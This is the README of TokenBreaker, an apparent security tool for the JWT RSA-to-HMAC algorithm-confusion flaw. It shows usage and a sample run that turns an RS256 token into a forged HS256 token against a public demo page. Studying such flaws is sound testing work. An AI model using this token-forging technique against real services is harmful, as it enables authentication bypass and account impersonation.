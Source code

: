 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

<ul>
  <li>None Algorithm(Not pushed yet)</li>
  <li>RSAtoHMAC</li>
</ul>

Refer to <a href="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" >this</a> link about insights of the vulnerability and how an attacker can forge the tokens

<h1>RSAtoHMAC Usage</h1>
<code><pre>
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>

<h1>Output</h1>
<code><pre>
./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.GwWRgb31V7OaxFt9wMd8LlLWWi4Z3zJ4NL7k38yz2mRYzKht1cFYrsxQv4DJdGLwV6D6L08iwF7_J90usGnJoLw8OLVUZvcDRH8rgGtpICSjhv1qaWiHW4-Gcqet4NieJLuvZzJn2imV2-x5TUDJJICKUaj183EvuJTOnjWuD0-ieT3ixhXbm0-E_9LqsGIUJrRQZfPkFOgpH8OLaJYscJwUghWOEphYV-jeek91Qu3TJkeXUuIUUuCF_l6x3eIHheQ0eYLuFc7Ug85HFWemeQ4rK7kMr8sDd3YKnFwZIoDPF6gnnr3lNOydDbpjn-KHnu1oU0E2zk1NIgHPs4TVww -p /tmp/pub
Decoded Header value is : {"typ":"JWT","alg":"RS256"}
Decode Payload value is : {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}
Enter your header Value: {"typ":"JWT","alg":"HS256"}
Enter your payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1537518732,"exp":1537518852,"data":{"hello":"world"}}
Successfully encoded Token: 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTUzNzUxODczMiwiZXhwIjoxNTM3NTE4ODUyLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.aZ03C84GU7WfIFsyvRzr9NUhtDQttOvA6CW5fUxGXmU
</pre></code>

<p>Try out this vulnerability <a href="http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?">here</a></p>

